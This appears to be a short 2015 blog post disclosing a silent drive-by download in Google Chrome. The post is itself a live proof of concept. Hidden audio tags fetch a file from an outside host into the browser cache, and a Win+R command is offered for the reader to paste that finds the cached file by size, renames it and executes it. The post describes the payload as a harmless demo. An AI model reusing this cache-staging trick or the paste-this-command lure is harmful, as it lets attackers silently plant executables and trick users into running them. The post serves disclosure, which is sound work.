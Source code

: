 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if you dare to paste this seemingly harmless command in a Win+R prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

Can you understand how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC is a harmless demo
  * Chiptune in PoC is (c) 1999 WAVE
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
